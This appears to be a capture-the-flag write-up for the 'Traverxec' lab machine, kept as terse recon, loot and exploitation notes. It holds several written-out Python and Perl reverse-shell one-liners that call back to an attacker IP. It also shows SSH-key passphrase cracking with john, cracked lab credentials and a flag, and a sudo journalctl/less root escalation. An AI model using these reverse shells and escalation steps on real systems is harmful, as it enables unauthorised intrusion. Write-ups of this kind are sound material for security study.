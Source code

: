 # RECON
- PORT 80
	Running web application probably PHP
	Web Application server running nostromo 1.9.6
	Mail service running on empty.html with parameters name,subject,mail,message
- Kernel version is `Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux`
- Trying payload export RHOST="10.10.14.162";export RPORT=9090;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' NOT WORKING
- Trying payload python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.162",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' NOT WORKING
- perl -e 'use Socket;$i="10.10.14.162";$p=9090;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' WORKED
- nhttpd had a vulnerability which was preventing anonymous users from accessing to user directory via setting `homedirs_public		public_www` this led me to try list /home/david/public_www/ and found protected directory which had backup for ssh login
- using `id_rsa` will not work because it has passphrase for it. So in order to crack it I have converted the id_rsa to john format using `ssh2john id_rsa` and ran john --fork=2 --wordlist=~/Documents/Dictionaries/rockyou.txt davidKey.hash

# LOOTS
- david@traverxec.htb
- david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/ CRACKED => Nowonly4me
- david home backup on /home/david/public_www/protected/
- david `id_rsa` passphrase = hunter
- david flag : 7db0b48469606a42cec20750d9782f3d

# EXPLOITATION
- Vulnerable via nostromo remote code execution exploit. WWW-DATA user owned
- Getting root was a tricky one. The server-stats.sh script had executing journalctl as sudo so it has root permission and it specified the nhttpd service which was owned by www-data so its readable. Thus making the stty col small as possible for hanging the journalctl output. And after it hangs with stty col 10 run cmd on less using !/bin/bash and bash spawned by root prviliege
